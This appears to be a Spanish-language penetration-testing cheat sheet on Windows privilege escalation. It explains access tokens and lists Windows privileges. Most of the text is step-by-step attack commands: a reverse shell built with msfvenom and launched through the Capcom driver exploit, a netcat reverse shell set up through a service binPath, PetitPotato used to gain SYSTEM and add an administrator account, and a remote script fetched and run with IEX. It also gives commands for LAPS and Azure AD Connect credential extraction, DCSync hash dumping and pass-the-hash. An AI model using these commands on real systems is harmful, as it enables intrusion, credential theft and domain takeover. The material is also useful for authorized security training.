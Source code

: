 # Escalación de privilegios en Windows 

Tags: #AD #Windows #SeImpersonatePrivilege #SeAssignPrimaryTokenPrivilege

* [Escalacion-Privilegios-Payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
* [Abusando de Tokens Windows - Hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)

## Tokens de acceso 

Los tokens de acceso en Windows son estructuras de datos que almacenan la información de seguridad y de usuario asociada a un proceso o hilo. Estas estructuras son esenciales dentro del modelo de seguridad de Windows, ya que definen los derechos y privilegios asignados a un proceso o hilo específico en el sistema.

A continuación, se presentan detalles clave sobre los tokens de acceso en Windows:

```bash 
1. Tipos de Tokens: Hay dos tipos principales de tokens en Windows:
    
    - Token de usuario: Representa a un usuario que se ha autenticado con éxito. Está asociado con todos los procesos iniciados por ese usuario.
    - Token primario: Es el token asociado con un proceso cuando se inicia.
    - Token de impersonación: Permite a un hilo actuar con diferentes niveles de privilegio de su proceso contenedor. Es útil, por ejemplo, cuando un servicio necesita realizar tareas con privilegios diferentes.
        
    
2. Información en Tokens: Un token de acceso contiene información como:
    
    - Identificador de usuario (User SID): Identifica al usuario asociado con el token.
    - Grupos SID: Identifica a los grupos de los que el usuario es miembro.
    - Privilegios: Define acciones específicas que el usuario puede realizar, como apagar el sistema o cambiar la hora del sistema.
    - Tipo de token: Indica si el token es primario o de impersonación.
    - Nivel de impersonación: Si es un token de impersonation, este campo especifica el nivel (Anónimo, Identificación, Impersonación, Delegación).
    - Discretionary Access Control List (DACL): Especifica qué objetos puede acceder el portador del token y con qué permisos.
        
    
3. Impersonation: Esta es una característica clave en Windows que permite a un hilo tomar el token de otro usuario y "impersonarlo", es decir, actuar con los privilegios de ese usuario. Es útil en situaciones como servidores que necesitan acceder a recursos en nombre de un cliente.
    
4. Token Stealing: En el contexto de la seguridad, los tokens de acceso pueden ser objeto de abuso por parte de atacantes. Si un atacante logra comprometer un proceso o hilo con privilegios elevados, puede "robar" el token asociado y usarlo para impersonar a ese usuario o proceso de alto privilegio, facilitando la escalación de privilegios o el movimiento lateral.
    
5. Creación de Tokens: Los tokens de acceso se crean durante el proceso de autenticación. Cuando un usuario inicia sesión en una máquina Windows, el sistema genera un token de acceso que representa al usuario y a todos sus grupos y privilegios asociados.
    
6. Modificación de Tokens: A través de APIs específicas, es posible modificar tokens, aunque generalmente esto requiere privilegios elevados. Esta capacidad puede ser abusada por malware o atacantes para alterar los derechos y permisos de un token.
```

Los tokens de acceso desempeñan un papel fundamental en la infraestructura de seguridad de Windows. Brindan una notable flexibilidad para la gestión de identidades y accesos, aunque también pueden convertirse en un posible punto de ataque si no se manejan y protegen de forma adecuada. Por ello, es esencial que los administradores y expertos en seguridad entiendan su funcionamiento y las medidas necesarias para prevenir su uso indebido.

## Privilegios en Windows

* [Niveles de integridad - Hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/integrity-levels)

En los sistemas operativos Windows, los privilegios son permisos otorgados a las cuentas de usuario y servicios, los cuales determinan las acciones que pueden ejecutarse en el sistema. Estos privilegios regulan aspectos clave de la seguridad y la administración del sistema, permitiendo desde la modificación del reloj del sistema hasta la gestión de registros y configuraciones de seguridad. A continuación, te presento una lista de los privilegios disponibles en Windows, aunque es importante tener en cuenta que esta lista puede variar ligeramente según la versión del sistema operativo.

```bash 
1. SeAssignPrimaryTokenPrivilege: Asignar un token primario a un proceso.
2. SeAuditPrivilege: Generar eventos de auditoría de seguridad.
3. SeBackupPrivilege: Omitir comprobaciones de permisos para realizar operaciones de respaldo.
4. SeChangeNotifyPrivilege: Omitir la notificación de cambio de directorio.
5. SeCreateGlobalPrivilege: Crear objetos globales.
6. SeCreatePagefilePrivilege: Crear un archivo de paginación.
7. SeCreatePermanentPrivilege: Crear objetos permanentes.
8. SeCreateSymbolicLinkPrivilege: Crear enlaces simbólicos.
9. SeCreateTokenPrivilege: Crear un token de objeto.
10. SeDebugPrivilege: Depurar programas.
11. SeEnableDelegationPrivilege: Habilitar la delegación de seguridad.
12. SeImpersonatePrivilege: Impersonar a un cliente después de la autenticación.
13. SeIncreaseBasePriorityPrivilege: Aumentar la prioridad de proceso.
14. SeIncreaseQuotaPrivilege: Aumentar cuotas de proceso.
15. SeIncreaseWorkingSetPrivilege: Aumentar el conjunto de trabajo de un proceso.
16. SeLoadDriverPrivilege: Cargar y descargar controladores de dispositivos.
17. SeLockMemoryPrivilege: Bloquear páginas en memoria.
18. SeMachineAccountPrivilege: Agregar equipos al dominio.
19. SeManageVolumePrivilege: Realizar mantenimiento de volumen.
20. SeProfileSingleProcessPrivilege: Realizar monitoreo de rendimiento.
21. SeRelabelPrivilege: Modificar etiquetas de integridad de objetos.
22. SeRemoteShutdownPrivilege: Forzar el apagado desde un sistema remoto.
23. SeRestorePrivilege: Omitir comprobaciones de permisos para realizar operaciones de restauración.
24. SeSecurityPrivilege: Administrar auditoría y registro de seguridad.
25. SeShutdownPrivilege: Apagar el sistema.
26. SeSyncAgentPrivilege: Sincronizar datos de directorio.
27. SeSystemEnvironmentPrivilege: Modificar la configuración del entorno del firmware.
28. SeSystemProfilePrivilege: Realizar monitoreo de rendimiento del sistema.
29. SeSystemtimePrivilege: Cambiar la hora del sistema.
30. SeTakeOwnershipPrivilege: Tomar propiedad de archivos u otros objetos.
31. SeTcbPrivilege: Actuar como parte del sistema operativo.
32. SeTimeZonePrivilege: Cambiar la zona horaria.
33. SeTrustedCredManAccessPrivilege: Acceder a credenciales guardadas de manera segura.
34. SeUndockPrivilege: Desacoplar el sistema de la base.
35. SeUnsolicitedInputPrivilege: Leer la entrada no solicitada del terminal interactivo.
```  

Cada uno de estos privilegios otorga la capacidad de realizar acciones concretas en el sistema que pueden influir en su configuración, seguridad y funcionamiento general. Los administradores del sistema deben gestionar y asignar estos privilegios con cuidado para garantizar la seguridad y el correcto desempeño de los sistemas Windows.

## Privilegios Windows para escalar 

```bash 
❯ whoami /priv        # Muestra los privilegios del usuario actual 
```

```powershell 
1. 'SeLoadDriverPrivilege' = Permite 'cargar drivers firmados' que se ejecutan con permisos del 'kernel (ring 0)'. Si puedes cargar un 'driver malicioso' (uno que eleva privilegios), te puedes convertir en 'NT AUTHORITY\SYSTEM' o incluso ejecutar código arbitrario en el núcleo


Pasos:
❯ https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp    # Copiar el codigo en Visual studio creando un nuevo proyecto 'Aplicación de consola'. Guardar con 'Release' y complilarlo con 'Compilar solución' y transferir 'EoPLoadDriver.exe' a la máquina Windows comprometida
❯ https://github.com/FuzzySecurity/Capcom-Rootkit/tree/master/Driver    # Descargar el archivo 'Capcom.sys' y transferirlo a la máquina Windows comprometida

❯ .\EoPLoadDriver.exe System\CurrentControlSet\MyService C:\Windows\Temp\Capcom.sys  # Cargar y ejecutar el driver en Windopws. Debe de mostrar lo siguiente: 'NTSTATUS: 00000000, WinError: 0'

❯ https://github.com/tandasat/ExploitCapcom   # Descargar el proyecto completo en zip para abrirlo desde Visual Studio. Modificar la linea de 'LaunchShell' y colocar "C:\\ProgramData\\reverse.exe". Guardar con 'Release' y complilarlo con 'Compilar solución' y transferir 'ExploitCapcom.exe' a la máquina Windows comprometida

❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=443 -f exe -o reverse.exe  # Crear el archivo malicioso en Kali y transferirlo a la máquina Windows comprometida

❯ .\ExploitCapcom.exe        # Ejecutar el archivo en Windows y obtener la revershell en Kali 

Notas:
	1. Si al momento de compilar da un error, eliminar '#include "stdafx.h"' y volverlo a compilar
	2. La ruta donde compila los archivos Visual Studio los muestra por la consola 
	3. Para obtener la revershell se debe estar en escucha con 'Netcat'
```

```powershell
2. 'SetImpersonatePrivilege' = Abusando de 'SeImpersonatePrivilege y SeAssignPrimaryTokenPrivilege'. Si un usuario tiene los privilegios antes mencionados se puede aprovechar para obtener acceso a nivel de SYSTEM


Pasos:
❯ https://github.com/wh0amitz/PetitPotato/releases/tag/v1.0.0   # Descargar el archivo y transferirlo a la máquina Windows comprometida 
❯ PetitPotato.exe 3 cmd         # Crear una cmd con el usuario 'NT Authority\System' 
	# EfsID = '3' es el numero de API a usar
❯ PetitPotato.exe 3 "whoami"    # Ejecutar un comando  
❯ PetitPotato.exe 3 "net user omar P4ssw0rd /add"               # Crear un user siendo 'NT Authority\System'
❯ PetitPotato.exe 3 "net localgroup Administrators omar /add"   # Agregar el usuario al grupo 'Administrators'
❯ PetitPotato.exe 3 "net user Omar"                             # Mirar el grupo de un usuario en especifico

Notas:
	1. Despues de crear un usuario para tener persistencia, podemos ingresar a con RDP si esta abierto el puerto '3389'
	2. También se pude utilizar 'RottenPotato o JuicyPotato'
```

## Grupos Windows para escalar 

```bash 
❯ net user <user>     # Mirar los grupos del usuario 
```

```powershell
1. 'Azure Admins' = Si puedes acceder a Azure AD Connect desde un usuario del grupo 'Azure Admins', puedes extraer credenciales privilegiadas y 'escalar a Domain Admin'.


Pasos: 
❯ https://github.com/VbScrub/AdSyncDecrypt/releases/tag/v1.0   # Descargar el archivo AdDecrypt.zip y extraer su contenido para obtener 'AdDecrypt.exe, mcrypt.dll' y transferir los archivos a la máquina Windows comprometida
❯ 'C:\Program Files\Microsoft Azure AD Sync\Bin'  # Ir a la siguiente ruta en Windows para ejecutar el 'AdDecrypt.exe'
❯ AdDecrypt.exe -FullSQL      # Ejecutar la herramienta para extraer credenciales del usuario Administrator 

Notas: 
	1. El AdDecrypt.exe y mcrypt.dll se deben de encontrar en la misma carpeta
```

```powershell 
2. 'Server Operators' = Si pertenece a este grupo en un sistema Windows, se tiene ciertos privilegios elevados 'localmente' sobre los servidores y se puede 'iniciar, detener, configurar, crear, reiniciar realizar backups' sobre los servicios existentes.


Pasos:
❯ nc.exe     # Descargar y tranferir el archivo a la máquina Windows comprometida para hacer la Revershell
❯ services   # Mirar todos los servicios que se estan ejecutando en Windows 
❯ sc.exe create <service> binPath="C:\Users\omar\Desktop\nc.exe -e cmd IP 443"   # Crear un servicio 
❯ sc.exe config <service> binPath="C:\Users\omar\Desktop\nc.exe -e cmd IP 443"   # Modificar un servicio 
❯ sc.exe stop <service>         # Detener un servicio 
❯ sc.exe start <service>        # Iniciar un servicio 

Notas:
	1. Antes de iniciar el servicio, en Kali se debe de estar en 'listening' con 'Netcat' para establecer la Revershell 
```

```powershell 
3. 'LAPS_Readers' =  Los miembros del grupo 'LAPS\Readers' tienen 'permiso de lectura' sobre los atributos de Active Directory donde se almacenan las 'contraseñas locales administradas automáticamente'. Por lo tanto, se puede leer la contraseña del administrador local de las máquinas unidas al dominio, conectarte con esa contraseña y tomar el control de la máquina como 'administrador local'.


Pasos:
❯ https://github.com/kfosaaen/Get-LAPSPasswords   # Descargar 'Get-LAPSPasswords.ps1' y transferirlo a la máquina Windows comprometida
❯ IEX (New-Object Net.WebClient).DownloadString('https://IP/Get-LAPSPasswords.ps1')  # Importar el modulo 
❯ Get-LAPSPasswords          # Ejecutar la función para obtener la password de Administrator
```

```powershell
4. 'Account Operators' = Si se esta en este grupo con derechos de 'GenericAll' sobre el grupo 'Exchange Windows Permissions' se puede crear un usuario y agregarlo al grupo. Además, si el grupo de 'Exchange Windows Permissions' tiene derechos de 'WriteDacl' sobre el dominio, se puede ejecutar un DCSync para obtener los hashes de todos los usuarios y hacer un Pass-The-Hash


Pasos:
❯ net user omar P4ssw0rd /add /domain       # Crear un usuario a nivel de dominio por pertenecer al grupo 'Account Operators' en Windows 
❯ net group "Exchange Windows Permissions" omar /add     # Agregar al usuario al grupo 'Exchange Windows Permissions'
❯ net group        # Mirar los grupos existentes 
❯ net user omar    # Mirar la info del usuario 


# Agregar el privilegio de DCSync al usuario  
❯ $SecPassword = ConvertTo-SecureString 'password' -AsPlainText -Force
	# password = Contraseña del usuario 
❯ $Cred = New-Object System.Management.Automation.PSCredential('domain1.local\user', $SecPassword)
❯ Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=domain1,DC=local" -PrincipalIdentity user -Rights DCSync 
	# user = Usuario que se agrego en la variable $Cred

Notas: 
	1. El comando de 'Add-DomainObjectAcl' solo se puede ejecutar cuando se carga el módulo de 'PowerView.ps1'


# Hacer DCSync en Kali 
❯ impacket-secretsdump domain1.local/user@IP-DC    # Ejecutar el DCSync con el usuario creado
	# IP-DC = La dirección IP del DC  
❯ impacket-psexec domain1.local/Administrator@IP cmd.exe -hashes :hash   # Utilizar 'psexec' para ingresar con el usuario 'Administrator' haciendo 'Pass-The-Hash'    
```

```powershell 
5. 'Backup Operators' = El usuario en este grupo recibe los privilegios de 'SeBackupPrivilege y SeRestorePrivilege' y permite leer cualquier archivo del sistema, ignorando sus permisos NTFS. Se puede copiar archivos críticos del sistema como el 'SAM, SYSTEM o NTDS.dit', incluso si no tiene permisos NTFS explícitos para ello. Estos archivos contienen información sensible como: 'Hashes de contraseñas locales, Credenciales de cuentas del dominio (si es un DC) y Configuraciones de seguridad'


## FORMA 1
Pasos:   
❯ reg save hklm\sam C:\temp\sam.hive           # Hacer una copia de la SAM en Windows y descargarlo 
❯ reg save hklm\system C:\temp\system.hive     # Hacer una copia del system en Windows y descargarlo

❯ impacket-secretsdump -sam sam.hive -system system.hive LOCAL     # Dumpear los hashes de los usuarios desde Kali con los archivos obtenidos 

Notas:
	1. https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md      # Forma de explotar 


## FORMA 2
Pasos:
❯ https://github.com/horizon3ai/backup_dc_registry/blob/main/reg.py    # Descargar la tool 

❯ python3 reg.py user:'passwd'@IP backup -p '\\IP\smbFolder'
	# user:passwd = Credenciales validas del usuario que se encuentra en el grupo 'Backup Operators'
	# IP = Dirección IP del DC
	# \\IP\share = Recurso compartido con la IP de Kali para recibir los archivos a descargar 
❯ impacket-smbserver smbFolder $(pwd) -smb2support    # Crear un server para recibir los archivos 'SAM, SECURITY y SYSTEM' y así poder hacer el dumpeo 

❯ impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL     # Dumpear los hashes de los usuarios desde Kali con los archivos obtenidos 

❯ impacket-secretsdump 'domain1.corp/user'@IP_DC -hashes :64fbae31cc352fc26af97cbdef151e03 # Hacer un DCSync
	# hashes = Hash ':NT' del usuario 

Notas:
	1. Crear el recuros compartido antes de ejecutar la herramineta 'reg.py'
	2. La ejecución de la herramienta 'reg.py' y el comando de 'impacket-smbserver' deben de ser en el mismo directorio en Kali para evitar un error 
```
